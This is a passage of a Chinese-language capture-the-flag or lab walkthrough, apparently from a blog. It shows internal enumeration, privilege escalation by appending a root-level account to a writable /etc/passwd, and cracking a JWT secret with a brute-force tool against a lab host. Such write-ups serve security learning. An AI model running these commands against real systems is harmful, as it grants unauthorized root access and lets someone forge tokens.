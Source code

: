 --------------------------------------------
--------------------------------------------
6、内部信息收集

1）127.0.0.1:27017
2）用户信息枚举
admin:x:1000:1004:admin:/home/admin:/bin/bash  27(sudo)
node:x:1001:1005:,,,:/home/node:/bin/bash
root:x:0:0:root:/root:/bin/bash
3）[+] Writable passwd file? ................ /etc/passwd is writable


--------------------------------------------
--------------------------------------------
7、提权
perl -le 'print crypt("dayu","aa")'
echo 'dayuroot:aaP.3CTQfJaLg:0:0:dayuroot:/root:/bin/bash' >>/etc/passwd

su dayuroot

成功获得root权限！



--------------------------------------------
--------------------------------------------
项目二十四：知识回顾
2）JWT

将pw内容丢入谷歌，发现这是JWT（JSON Web 令牌）！----果然和第一部分验证的JWT是提示！

什么是JWT？ JSON Web Token（JWT）是一个开放的行业标准（RFC 7519），它定义了一种简介的、自包含的协议格式，用于在通信双方传递json对象，传递的信息经过数字签名可以被验证和信任。JWT可以使用HMAC算法或使用RSA的公 钥/私钥对来签名，防止被篡改。
参考：
https://blog.csdn.net/guohao_1/article/details/89951178

JWT 具有这种格式的三个部分：
base64(header).base64(payload).base64(signature)
1. header在 JSON 中指定算法和类型。
2. payload指定令牌的声明，也在 JSON 中。
3. signature是编码头和有效载荷的数字签名。

在线查看：
https://jwt.io/#debugger

开始破解：
proxychains git clone https://github.com/brendan-rius/c-jwt-cracker.git
cd jwt-cracker
apt-get install libssl-dev
make

./jwtcrack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.pn55j1CFpcLjvReaqyJr0BPEMYUsBdoDxEPo6Ft9cwg
Secret is "mlnV1"   ----等待几分钟


或者用：https://github.com/lmammino/jwt-cracker
--------------------------------------------
--------------------------------------------
9、另外一种思路教学！
访问主页会发现user模块，点击进入会发现很多人名信息：
http://192.168.4.5/users   ---加入拥有超过 15,000 名会员的发展最快的社交网络之一！
